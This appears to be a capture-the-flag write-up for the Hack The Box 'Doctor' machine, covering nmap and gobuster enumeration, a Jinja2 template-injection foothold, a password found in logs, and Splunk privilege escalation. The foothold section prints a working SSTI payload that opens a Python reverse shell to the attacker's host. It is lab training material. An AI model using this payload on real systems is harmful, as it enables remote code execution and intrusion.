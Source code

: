 ```yaml
---
title: "[HTB] Machine: Doctor"
description: "[HTB] Machine: Doctor"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Doctor"
    identifier: htb-machine-doctor
    parent: htb-machines-linux
    weight: 10
hero: images/doctor.png
tags: ["HTB", "splunk", "vhosts", "flask", "payloadsallthethings", "ssti", "command-injection", "injection", "adm", "linpeas", "splunk-whisperer2"]
---
```


# Doctor
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -sC -sV 10.10.10.209 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 19:08 BST
Nmap scan report for 10.10.10.209 (10.10.10.209)
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 594d4ec2d8cfda9da8c8d0fd99a84617 (RSA)
|   256 7ff3dcfb2dafcbff9934ace0f8001e47 (ECDSA)
|_  256 530e966b9ce9c1a170516c2dce7b43e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

```
- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.209 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error -x php,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.209
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 19:11:54 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

```

- We have `Splunk` on port `8089`

![](./images/2.png)

## Foothold
- We have an email `info@doctors.htb`
  - If we add `doctors.htb` to `/etc/hosts` file and visit it, we are redirected to `/login?next=%2F`
  - Which is served under `Werkzeug/1.0.1 Python/3.8.2`

![](./images/3.png)

![](./images/4.png)

- We can create an account and check what's inside
  - We can create posts
  - If we check the source, we have `/archive`

![](./images/5.png)

![](./images/6.png)

![](./images/7.png)

![](./images/8.png)

![](./images/9.png)

- I tested for `sqli` but found nothing
  - We might have [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), so let's test it
  - I started with basic payloads from the post
  - There was nothing on the `post` page, but if we visit `/archive` page we see the results

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)

- Let's get reverse shell
  - I used payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
    - `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.12\",6666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`
  - Launch a listener, create a new post and visit the `/archive`

![](./images/13.png)

![](./images/14.png)

![](./images/15.png)

## User
- Let's run `linpeas`
  - We find an interesting entry in logs `POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password`
  - It happens to be `shaun`'s password
  
![](./images/16.png)

![](./images/17.png)


## Root
- `linpeas` found nothing
  - Then I started enumerating `splunk`
    - `searchsploit` has nothing 
  - Found an interesting repo [SplunkWhisperer2s](https://github.com/cnotin/SplunkWhisperer2)
  - Let's test it

![](./images/18.png)

- Well, it works
  - Let's get our root

![](./images/18.png)